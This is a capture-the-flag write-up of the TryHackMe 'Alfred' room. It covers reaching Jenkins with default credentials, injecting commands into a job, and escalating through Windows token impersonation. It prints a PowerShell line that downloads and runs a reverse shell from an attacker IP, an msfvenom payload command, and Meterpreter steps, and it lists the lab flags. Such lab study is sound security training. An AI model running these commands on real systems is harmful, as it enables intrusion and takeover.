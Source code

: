 # Lab Report - Alfred


# Overview 
- **Category**: Web
- **Difficulty**: Easy
- **Platform**: Windows
- **Link**: https://tryhackme.com/room/alfred
- **Tags**: #shell #privesc  #jenkins

## Challenge Description 
>**- Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.**
## Resolution Summary 
>**We enumerated services with `Nmap`. Next we gained access to a Jenkins web application using common credentials. Shortly after, we found a project than was executed on a Windows machine, we were able to edit the project and execute malicious code to infiltrate the target. Finally, we elevated our privileges by impersonating higher-privileged tokens. We retrieved both user and root flags.** 

# Information Gathering 
- **As we were given an IP address, we started to scan the network for open ports using `Nmap`.**
- **Since the machine doesn't respond to ICMP packets, we will be using the `-Pn` option (it tells Nmap to skip the host discovery step entirely and treat all specified hosts as online):**
```bash
sudo nmap -sV -Pn 10.10.197.195
```

- **From the previous scan, we get the following results:**
```bash
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- **We focused on investigating these services.** 
## HTTP (80)
- **Once we accessed the web application on port 80, we were greeted with a picture of Patric Bateman (Bruce Wayne) and an email address for donations `alfred@wayneenterprises.com`.** 
- **We started a Gobuster scan in order to find any hidden directory:** 
```bash
gobuster dir -u 10.10.197.195:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 64
```
	Note: It did not bear any result.

- **While the scan was running, we downloaded the picture from the web application and ran the following, hoping to find any information from the picture's metadata:**
```bash
exiftool bruce.jpg
```
	Note: It did not lead to anything.

- **At this point, here is the only useful data we gathered from this web application:**
	- An email address: `alfred@wayneenterprises.com`.
	- Potential usernames: `Bruce Wayne, Alfred`.  

## HTTP (8080)
- **There we came across a login page.** 
- **Just in case, we ran on the background the same GoBuster scan as before:** 
```bash
gobuster dir -u 10.10.197.195:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 64
```
	Note: It did not lead to anything.

- **Since we were facing a login page, we used Burp Suite to examine the login request. We found that there is a redirection upon trying to authenticate, even if the credentials were wrong (hence, we couldn't see the login error message when forwarding a request with Repeater).** 

- **We attempted some basic credentials combination, and we found a successful one:** 
	- **`admin:admin`**

# Exploitation 
## HTTP (8080)
- **Upon exploring the Jenkins interface, we found a project (scheduled) that run the `whoami` command, we immediately thought about some sort of command injection vulnerability.**
- **First, we uploaded a (reverse shell) Powershell script from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)** 

- **Next we injected this code to be executed on the target:** 
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.139.102:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.139.102 -Port 4444
```

- **However, we could also try to set up a better shell with Meterpreter.** 
- **We started by creating the payload by using `msfvenom`:**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.139.102 LPORT=4444 -f exe -o shell.exe
```

- **Next, we used Metasploit's  handler `multi/handler` to receive our reverse shell:** 
```bash
msfconsole
use /exploit/multi/handler
#We set all the required options + payload
run
```

- **And we injected this command on the Jenkins project:**
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.139.102:8000/shell.exe','shell.exe')"

#After running the previous command, we injected this one to execute the payload

shell
```

- **Once we obtained a meterpreter shell, we used the following to access a Windows shell:** 
```cmd
shell
```

# Privilege Escalation 
- **Here we will be using token impersonation to gain system access.** 
- **In order to find privilege escalation vectors, we viewed the privileges held by our user's access token using the following:**
```cmd
whoami /priv
```

- **As a result, we found that `SeDebugPrivilege` and 'SeImpersonatePrivilege' are both enabled. Here, we will be exploiting the 'SeImpersonatePrivilege' privilege.**
- **Since 'SeImpersonatePrivilege' is enable, we can perform impersonation for available tokens. We will be using the `incognito` module to exploit this vulnerability.** 

- **First, we needed to drop back to our meterpreter shell:** 
```cmd
exit
```

- **Then , we loaded the `incognito` module on our meterpreter session:** 
```meterpreter
load incognito
```

- **Next, we checked the available tokens:** 
```meterpreter
list_tokens -g
```

- **Eventually, we found that the `BUILTIN\Administrators` token was available. We impersonated it by using the following command:** 
```meterpreter
impersonate_token "BUILTIN\Administrators"
```

- **However, since Windows uses the Primary Token (and not the impersonated one) to determine what the process can do or not, we need to ensure that we migrate to a process with the correct permissions.** 

- **To begin with , we can use the `getuid` command to confirm our privileges after impersonation:** 
```meterpreter
getuid 

NT AUTHORITY\SYSTEM
```

- **As the impersonation process is temporary and thread-scoped, we can try  and migrate to a process with the correct permissions (NT AUTHORITY\SYSTEM) which will allow our Meterpreter process to run with the stolen token more stably and persistently.**
- **We went with the following option `services.exe` (suggested by the THM), we could also target another process since this one is likely to be monitored in real-world context:**
```meterpreter 
ps
migrate 668
```

- **Finally, we used `shell` again to access a Windows shell and got the root.txt file.** 

# Trophy 
**User.txt → `79007a09481963edf2e1321abd9ae2a0`**  

**Root.txt → `dff0f748678f280250f25a45b8046b4a`**

# Remediation Summary
- **Avoid using weak/common credentials.**
- **Restrict job editing/configuration in Jenkins to authorized administrators; Require approval for changes from non-privileged users.**
- **Revoke or restrict privileges such as 'SeImpersonatePrivilege' or 'SeDebugPrivilege' from non-service (= not meant to run Windows services or system processes) accounts.** 

# Lessons Learned
- **Command injections in Jenkins projects**
- **Always try common credentials first (low-hanging fruit)**
- **Using impersonation tokens**
- **Migrating to a service with the correct permissions to stabilize the shell after token impersonation**
